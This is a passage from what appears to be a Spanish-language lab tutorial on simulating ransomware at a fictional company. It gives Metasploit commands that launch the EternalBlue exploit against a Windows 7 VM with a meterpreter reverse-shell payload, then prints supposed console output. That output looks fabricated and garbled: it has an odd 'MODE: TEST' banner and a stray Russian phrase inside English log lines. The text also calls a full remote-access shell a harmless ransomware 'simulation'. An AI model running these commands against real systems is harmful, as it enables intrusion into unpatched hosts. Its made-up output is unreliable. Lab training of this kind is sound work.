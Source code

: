 2.  **Preparar el Payload de Ransomware Simulado:**  En la máquina atacante (Kali Linux), **utilizar Metasploit para generar un payload de ransomware simulado**.  Metasploit ofrece **módulos auxiliares y exploits** que permiten **simular el comportamiento de ransomware sin cifrar realmente los datos de forma irreversible**.  Por ejemplo, se puede utilizar el módulo `exploit/windows/smb/ms17_010_eternalblue` (para simular la explotación de EternalBlue) y un payload que **simplemente muestre un mensaje de "rescate" en la pantalla de la víctima**, sin cifrar datos reales.

    *   **Ejemplo Práctico en "Tech Solutions":**
        > En la VM "Atacante-Kali", abrimos la consola de Metasploit (`msfconsole`).  Utilizamos el módulo `exploit/windows/smb/ms17_010_eternalblue` para simular el ataque WannaCry, que es conocido y efectivo para entornos de prueba.  Configuramos el módulo con los siguientes comandos:
        >
        > ```
        > use exploit/windows/smb/ms17_010_eternalblue
        > set RHOSTS 192.168.10.10  # IP de la VM "Victima-Win7"
        > set LHOST 192.168.10.20   # IP de la VM "Atacante-Kali"
        > set payload windows/x64/meterpreter/reverse_tcp # Payload Meterpreter (shell de control remoto)
        > run
        > ```
        >
        > En este caso, en lugar de usar un payload de ransomware real (que cifraría datos), **utilizamos un payload Meterpreter**, que nos dará **acceso de control remoto a la máquina víctima** cuando la vulnerabilidad sea explotada.  Esto nos permite **simular la *infiltración* y *propagación lateral* del ransomware**, pero **sin el riesgo de cifrar datos reales**.  En un escenario más avanzado, podríamos usar un payload personalizado que simule el cifrado sin ser destructivo.

3.  **Desplegar el Ransomware Simulado en la Máquina Víctima:**  Desde la máquina atacante (Kali Linux), **lanzar el exploit EternalBlue contra la máquina víctima** (Windows 7) utilizando Metasploit.  Si el exploit tiene éxito, **el payload de ransomware simulado se ejecutará en la máquina víctima**, mostrando el mensaje de rescate simulado.

    *   **Ejemplo Práctico en "Tech Solutions":**
        > Después de ejecutar el comando `run` en Metasploit,  **el exploit EternalBlue se lanza contra la VM "Victima-Win7"**.  Si Windows 7 es vulnerable (como en nuestro caso), **el exploit tendrá éxito** y **Metasploit nos indicará "Meterpreter session X opened"**, lo que significa que **hemos obtenido acceso de control remoto a la máquina víctima**.
        >
        > ```
        > [*] 192.168.10.10:445 - Eternalblue: Sending Exploit (x64) ...
        > [*] 192.168.10.10:445 - ETERNALBLUE x64 BIT selected
        > [*] 192.168.10.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
        > [*] 192.168.10.10:445 - =-=-=-=-=-=-=-=      MODE: TEST      =-=-=-=-=-=-=-=-=-=-=-=-=-=
        > [*] 192.168.10.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
        > [*] 192.168.10.10:445 - Target OS selected: Windows 7 x64 SP0
        > [*] 192.168.10.10:445 -  NETBIOS VM-VICTIMA-WIN7...
        > [*] 192.168.10.10:445 - NETBIOS name VM-VICTIMA-WIN7 is too long, всего 15 байт.
        > [*] 192.168.10.10:445 - Sending all stager...
        > [*] 192.168.10.10:445 - Meterpreter session 1 opened (192.168.10.20:4444 -> 192.168.10.10:49165) at 2024-07-24 10:00:00 -0300
        > ```
        >
        > En este punto, **no veremos un mensaje de rescate en la VM "Victima-Win7"**, porque estamos utilizando un payload Meterpreter. Sin embargo, en una **simulación más avanzada**, podríamos **sustituir el payload Meterpreter por un payload de ransomware simulado** (que muestre una nota de rescate y simule el cifrado) o incluso **desarrollar un script personalizado** que **muestre un mensaje de alerta en la pantalla de la VM "Victima-Win7"** para simular visualmente el efecto del ransomware.
